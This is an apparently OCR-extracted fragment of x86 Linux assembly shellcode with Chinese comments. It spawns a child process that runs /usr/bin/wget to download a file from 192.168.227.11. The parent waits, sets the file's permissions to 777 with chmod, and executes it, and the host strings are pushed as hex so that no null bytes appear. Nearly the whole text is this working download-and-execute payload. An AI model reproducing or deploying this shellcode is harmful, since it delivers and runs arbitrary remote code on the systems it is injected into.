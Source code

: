     	;wait(NULL)
    	xor eax,eax ; eax寄存器清零
    	mov al,0x7 ; #define __NR_waitpid 7
    	int 0x80
    		
    	;chmod x
    	xor ecx,ecx
    	xor eax, eax
    	push eax
    	mov al, 0xf ;#define __NR_chmod 15
    	push 0x78 ; x：下载文件名
    	mov ebx, esp
    	xor ecx, ecx
    	mov cx, 0x1ff ; 0x1ff换算为8进制为777，通过按位与运算计算权限。(参数）
    	int 0x80
    	
    	;exec x
    	xor eax, eax
    	push eax
    	push 0x78 ; x：下载文件名
    	mov ebx, esp
    	push eax
    	mov edx, esp
    	push ebx
    	mov ecx, esp
    	mov al, 11 ; #define __NR_execve 11
    	int 0x80
    	
    	child:
    
    	;download 192.168.227.11//x with wget
    	push 0xb ; #define __NR_execve 11
    	pop eax
    	cdq ; 把EDX的所有位都设成EAX最高位的值
    	push edx
    	
    	push 0x782f2f32	;2//x avoid null byte
    	push 0x32322e32 ;2.22
    	push 0x2e383631 ;168.
    	push 0x2e323931 ;192.
    	mov ecx,esp ;保存堆栈指针X-16-8
    	push edx
    	
    	push 0x74 ;t
    	push 0x6567772f ;egw/
    	push 0x6e69622f ;nib/
    	push 0x7273752f ;rsu/
    	mov ebx,esp ；X-42-8
    	push edx
    
    	push ecx
    	push ebx
    	mov ecx,esp
    	int 0x80
	